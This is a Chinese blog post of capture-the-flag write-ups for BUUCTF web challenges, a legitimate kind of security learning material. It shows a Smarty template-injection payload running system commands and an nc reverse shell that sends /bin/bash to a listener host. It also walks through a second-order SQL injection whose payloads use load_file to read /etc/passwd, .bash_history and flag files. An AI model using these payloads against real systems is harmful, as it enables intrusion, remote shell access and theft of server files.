 <!--yml
category: 未分类
date: 2022-04-26 14:33:27
-->

# BUUCTF__web题解合集（十）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/tm_1024/article/details/108761112](https://blog.csdn.net/tm_1024/article/details/108761112)

## 前言

## 题目

### 1、[CISCN2019 华东南赛区]Web11

*   首先很明显的`ssti`模板注入，注入点在`xff`头，加上`X-Forwarded-For:127.0.0.1`后，右上角的ip会变化，输入`{{2*2}}`时回显是 4，
*   然后第二步就是确认模板选择注入payload。底部给出提示。为`smarty`模板，可以找到[相关资料](https://www.freebuf.com/column/219913.html)
    ![在这里插入图片描述](img/43212a15729ccb0ca64dc0858b5ecf6f.png)
*   已知能执行 `{if }{/if}`标签，比如执行 phpinfo() ,可以用`{if phpinfo()}{/if}`。
*   找到flag环境变量提示flag不在这里，就可能是有包含flag的文件。执行系统函数`{if system('cat /flag')}{/if}`成功得到flag，不过在注释里。做题时还以为执行失败了。。。
*   两点，第一点找到为ssti模板注入，并且确定为`smarty`模板。第二点就是执行正确的payload找到flag。
*   应该算基础的ssti注入，连过滤都没有。

### 2、[BJDCTF 2nd]Schrödinger

*   这应该算是脑洞题吧，页面全选或者查看源代码能有提示
    ![在这里插入图片描述](img/6ab482afbcd684cd89e99bff75657074.png)
*   尝试访问的话有一个登录页面，尝试sql注入无果。
*   返回继续看。提示你删除test.php。在cheak时抓包，发现`cookie` 中存在两个参数，有一个`dXNlcg`参数，后面的值能base64解密后发现为时间戳。随便修改后比如说1就弹出一个av号，b站搜av号就能找到flag。
    ![在这里插入图片描述](img/3a57189dbd981e38ae98fdf628fe5170.png)
*   感觉就是脑洞题。

### 3、[BJDCTF 2nd]duangShell

*   首先第一步提示了`.swp`源码泄露，访问`/.index.php.swp`下载文件，在linux下执行命令`vim -r index.php.swp`恢复文件得到源代码。因为.swp文件产生的原因就是vim编辑文件时的异常退出。

*   然后考点是命令执行，存在过滤，无法直接读取flag文件。第二步就是`弹shell`

*   [关于弹shell](https://blog.csdn.net/Kevinhanser/article/details/88920278)，可以利用nc反弹shell。因为buu不出外网，开一小号在`Basic`分类中开一台Linux Labs。根据提示ssh连上。然后ifconfig查看内网地址
    ![在这里插入图片描述](img/2e77a9cbe57df1d88115b504ebb83d97.png)

*   图中第一个`174.1.80.221`就是内网地址，然后在这台主机上监听一个端口，`nc -lvvp 4455`

*   然后在题目中post传参nc另一台主机的内网地址就成功连上

    ```
    girl_friend=nc 174.1.80.221 4455 -e /bin/bash 
    ```

![在这里插入图片描述](img/66c429c40ed28976a41effc76f70996f.png)

*   再执行`cat /flag`发现无回显，执行`find / -name / flag`找到flag所在位置，然后再`cat` 一下就行。
    ![在这里插入图片描述](img/782e75a0f942dcb300db9ba712661a02.png)
*   总结就是第一次接触反弹`shell` ，第一步源码泄露是常见的源码泄露的类型。注意点就是应该 nc 主机的内网地址。

### 4、[BSidesCF 2019]Futurella

### 5、[网鼎杯 2018]Comment

*   首先，第一步`.git`源码泄露和恢复。很多工具都能得到源码文件，但因为源码不全需要利用`.git`目录恢复历史版本，而我用其它的工具[GitHack](https://github.com/lijiejie/GitHack)、[GitHacker](https://github.com/wangyihang/githacker)、[scrabble](https://github.com/denny0223/scrabble)都没有成功恢复到`.git`目录。最后用之前做题时下载的一个[GitHack改进版](https://download.csdn.net/download/TM_1024/12889641)成功得到，但是我找不到原下载的地址了，就先上传到CSDN吧。卡了好久这里。
*   恢复源代码，先恢复文件`python GitHack.py url`
*   查看历史操作记录 `git log --reflog`
*   版本恢复 `git reset --hard commit`
    ![在这里插入图片描述](img/fe4c733c09044e9dd0f0e47aafb98221.png)
*   得到源代码

```
<?php
include "mysql.php";
session_start();
if($_SESSION['login'] != 'yes'){
    header("Location: ./login.php");
    die();
}
if(isset($_GET['do'])){
switch ($_GET['do'])
{
case 'write':
    $category = addslashes($_POST['category']);
    $title = addslashes($_POST['title']);
    $content = addslashes($_POST['content']);
    $sql = "insert into board
            set category = '$category',
                title = '$title',
                content = '$content'";
    $result = mysql_query($sql);
    header("Location: ./index.php");
    break;
case 'comment':
    $bo_id = addslashes($_POST['bo_id']);
    $sql = "select category from board where id='$bo_id'";
    $result = mysql_query($sql);
    $num = mysql_num_rows($result);
    if($num>0){
    $category = mysql_fetch_array($result)['category'];
    $content = addslashes($_POST['content']);
    $sql = "insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'";
    $result = mysql_query($sql);
    }
    header("Location: ./comment.php?id=$bo_id");
    break;
default:
    header("Location: ./index.php");
}
}
else{
    header("Location: ./index.php");
}
?> 
```

*   接下来是第二步，代码审计。第一点就是对于`addslashes`函数的转义过滤而言，在写入数据库时，不会讲增加的转义符`\` 写入，比如说，单引号经过函数处理应该是`\'`,写入时，还是`'`。
    ![在这里插入图片描述](img/510c40ce0e0a7e349b81ccdd5f582f43.png)
*   同时，在本题中可以发现,`category`读取时没有经过函数处理直接填入sql语句，而在上面的输入就经过了函数处理。所以，当我们输入`'111`时，最后写入数据库还是`'111`，但在执行写入的sql语句时是被转义的`\'111`在，最终在读取时直接填入sql语句就能闭合前面的单引号，引发注入。
    ![在这里插入图片描述](img/91843e4fc064b3785a86498d204f93ce.png)
*   然后思考怎么来利用，因为有留言版相关内容都有回显，所以最好的方法就是让它回显我们需要的内容。
*   第三步，二次注入。 利用多行注释`/**/`将后面输入的`content`注释掉，而在`category`存储时写入一个我们想要的`content`。
*   例如当我们的category=`' ,content = database(),/*`，在评论里提交`*/#`时，就能讲原有的`content`注释掉，而让`content`的值为数据库名称。#的作用是将后面的逗号注释，变灰部分就是注释。
    ![在这里插入图片描述](img/1b7720a81fe8c37b2356e9c52ea41c98.png)
*   留言前需要先登录，给出了账号，密码还缺少后面的三位，可以写个脚本爆破，或者盲猜666。

![在这里插入图片描述](img/bcdd281f086be3247d3b54f199f51fa5.png)

*   继续尝试读表、字段。内容发现没有flag。

    ```
    ' ,content =(select group_concat(table_name) from information_schema.tables where table_schema=database()) ,/* 
    ```

*   最后通过`user()`可以得知服务是以 root 权限运行的，可以用`load_file`函数读取文件，最常见的`etc/passwd`文件。
    ![在这里插入图片描述](img/6e063ce6819ce90f3c1cd73f9d523e43.png)

*   能发现文件路径web服务路径。然后然后，可以读取`.bash_history`，[它是什么](https://blog.csdn.net/qq_36119192/article/details/95881479?utm_medium=distribute.pc_relevant_t0.none-task-blog-BlogCommendFromMachineLearnPai2-1.channel_param&depth_1-utm_source=distribute.pc_relevant_t0.none-task-blog-BlogCommendFromMachineLearnPai2-1.channel_param)，它存储了当前用户输入过的历史命令。通过读取它来发现隐藏的文件。。。

    ```
    ', content=load_file('/home/www/.bash_history'),/* 
    ```

![在这里插入图片描述](img/eaff8afb72cf1426d5287571bf90692d.png)

*   整理一下就是以下步骤

    ```
    cd /tmp/                   到 /tmp/目录下
    unzip html.zip             解压html.zip
     rm -f html.zip            删除html.zip
     cp -r html /var/www/      复制文件夹html 到 /var/www/目录下
     cd /var/www/html/          到 /var/www/目录下
     rm -f .DS_Store            删除 .DS_Store文件
     service apache2 start     重启apache2服务 
    ```

*   然后可以发现`/tmp/html`目录中`.DS_Store`原文件没被删除，它只删除了复制过去后的文件，而`.DS_Store`文件是Mac OS 操作系统所创造的隐藏文件，目的在于存贮目录的自定义属性，可能存放着其它文件。所以尝试读取它。直接读读不出来，那就加一个hex让它以16进制输出。

    ```
    ',content=(select hex(load_file('/tmp/html/.Ds_Store'))),/* 
    ```

*   可以得到一长串的16进制字符，将它转为ASCII字符，可以用WinHex新建一个文件，然后把16进制文件以ASCII Hex格式写入。
    ![在这里插入图片描述](img/a80f435717c790ad23a3af0c1e5492ca.png)

*   可以得到flag文件名
    ![在这里插入图片描述](img/89d5feb8b6303abff2f043e7bd0488b8.png)

*   然后再去读取它，但是在原目录`/tmp/html`下读取的flag文件是假的。真正的flag文件在复制后的路径`/var/www/html`，并且flag在注释里，当然也可以像上面一样加一个hex让它以16进制字符串显示。

    ```
    ', content=(load_file('/var/www/html/flag_8946e1ff1ee3e40f.php')),/* 
    ```

![在这里插入图片描述](img/430715d99c8ca3259b7e91317a26f742.png)

*   结束，可以说是很复杂的题目了。。。第一步我就没了。。。后面的审计和实际注入也想不到。只能实际复现+理解了。

## 最后

*   可能不是写的很清楚，如果有疑问的话，欢迎留言一起交流。